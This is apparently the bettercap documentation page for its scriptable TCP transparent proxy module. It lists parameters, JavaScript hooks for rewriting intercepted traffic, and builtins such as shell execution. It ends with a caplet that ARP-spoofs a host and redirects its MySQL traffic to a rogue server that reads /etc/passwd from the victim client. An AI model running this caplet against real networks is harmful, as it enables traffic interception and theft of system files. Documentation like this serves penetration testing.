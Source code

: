 ```yaml
---
title: tcp.proxy
description: A TCP transparent proxy that can be scripted using JavaScript modules.
---
```


A TCP transparent proxy that can be scripted using JavaScript modules. If used together with a [spoofer](/modules/ethernet/spoofers/introduction/), all TCP traffic to a given address and port will be redirected to it and it will automatically handle port redirections as needed.

The optional `tcp.tunnel` parameter can be used to redirect the traffic from `tcp.address` to `tcp.tunnel.address`.

### Commands

#### `tcp.proxy on`

Start the TCP proxy.

#### `tcp.proxy off`

Stop the TCP proxy.

### Parameters

| Parameter            | Default               | Description                                       |
| -------------------- | --------------------- | ------------------------------------------------- |
| `tcp.address`        |                       | **Mandatory** remote address of the TCP proxy.    |
| `tcp.port`           | `443`                 | TCP port to redirect when the proxy is activated. |
| `tcp.proxy.address`  | `<interface address>` | Address to bind the TCP proxy to.                 |
| `tcp.proxy.port`     | `8443`                | Port to bind the TCP proxy to.                    |
| `tcp.proxy.script`   |                       | Path of a proxy module script.                    |
| `tcp.tunnel.address` |                       | Address to redirect the TCP tunnel to (optional). |
| `tcp.tunnel.port`    |                       | Port to redirect the TCP tunnel to (optional)     |

### Modules

The `tcp.proxy` module can be scripted using javascript files that must declare at least one of the following functions:

```js
// called when the script is loaded
function onLoad() {
  // ...
}

// called when data is available
// return an array of bytes to override "data"
function onData(from, to, data) {
  // ...
}
```

Modules can change the `data` buffer and return it, signaling the proxy to override the original buffer.

### Builtin Functions

Modules can use the following builtin functions.

| Function                                    | Description                                                                   |
| ------------------------------------------- | ----------------------------------------------------------------------------- |
| `readDir("/path/")`                         | Return the contents of a directory as a string array.                         |
| `readFile("/path/to/file")`                 | Return the contents of a file as a string.                                    |
| `writeFile("/path/to/file", "hello world")` | Write the string `hello world` to a file, returns `null` or an error message. |
| `log_debug("message")`                      | Log a message in the interactive session (its level will be `DEBUG`).         |
| `log_info("message")`                       | Log a message in the interactive session (its level will be `INFO`).          |
| `log_warn("message")`                       | Log a message in the interactive session (its level will be `WARNING`).       |
| `log_error("message")`                      | Log a message in the interactive session (its level will be `ERROR`).         |
| `log_fatal("message")`                      | Log a message in the interactive session (its level will be `FATAL`).         |
| `log("message")`                            | Shortcut for `log_info("message")`.                                           |
| `btoa("message")`                           | Encode a message to base64.                                                   |
| `atob("bWVzc2FnZQ==")`                      | Decode a message from base64.                                                 |
| `gzipCompress("plaintext data")`            | Compress a string using gzip encoding.                                        |
| `gzipDecompress(")9�\+�I��+I�(QHI,I����")`  | Decompress a gzip encoded string.                                             |
| `env("iface.ipv4")`                         | Read a variable.                                                              |
| `env("foo", "bar")`                         | Set a variable.                                                               |
| `run("command")`                            | Execute a shell command and return the output as a string.                    |
| `fileExists("/path/to/file")`               | Return `true` if the file exists, otherwise `false`.                          |
| `loadJSON("/path/to/file.json")`            | Load and parse a JSON file, returns a JS object.                              |
| `saveJSON("/path/to/file.json", object)`    | Serialize and save a JS object as JSON to the specified file.                 |
| `saveToFile("/path.txt", "data")`           | Save raw string data to a file.                                               |
| `onEvent("event.tag", callback)`            | Register a JS callback for the given session event tag.                       |
| `removeEventListener("event.tag")`          | Remove a previously registered event listener for the given tag.              |
| `addSessionEvent("tag", data)`              | Trigger a session event from within the script with a custom tag and payload. |

### Examples

The [rogue-mysql-server.cap](https://github.com/bettercap/caplets/blob/master/rogue-mysql-server.cap) executes an ARP spoofing attack against a single host and redirect the MySQL traffic to a [builtin rogue server](/modules/ethernet/servers/mysqlserver/):

```bash
# set the target for arp spoofing
set arp.spoof.targets 192.168.1.236

# bind rogue mysql server to localhost and
# set the file we want to read
set mysql.server.address 127.0.0.1
set mysql.server.port 3306
set mysql.server.infile /etc/passwd
mysql.server on

# set the ip from the mysql server we want to impersonate
set tcp.address 93.184.216.34
set tcp.port 3306

# set the ip from the rogue mysql server
set tcp.tunnel.address 127.0.0.1
set tcp.tunnel.port 3306

# go ^_^
tcp.proxy on
arp.spoof on
```
